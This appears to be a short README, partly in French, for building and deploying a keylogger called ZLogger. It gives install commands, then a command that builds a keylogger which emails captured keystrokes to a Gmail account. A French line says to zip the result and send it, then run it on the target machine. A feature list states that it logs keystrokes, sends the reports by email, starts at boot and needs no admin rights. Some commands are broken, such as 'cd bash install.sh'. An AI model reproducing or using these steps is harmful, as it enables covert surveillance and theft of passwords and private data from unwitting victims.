 # bloc3
apt install git -y
apt install wine -y
pip install pyscreenshot pyxhook && sudo apt install python3-xlib -y
sudo git clone ......
cd ZLogger
cd bash install.sh

sudo python zlogger.py -w -i 30 -e email@gmail.com --password monMDPGMAIL -o mickaKeyLogger

zipper le fichier et envoyer, puis lancer le fichier qui est dans le répertoire "dist" sur le poste client.


    Logs keys pressed on keyboard
    Sends reports by email.
    Starts with system startup.
    Works with Linux and Windows.
    Does not require root or admin privlages.
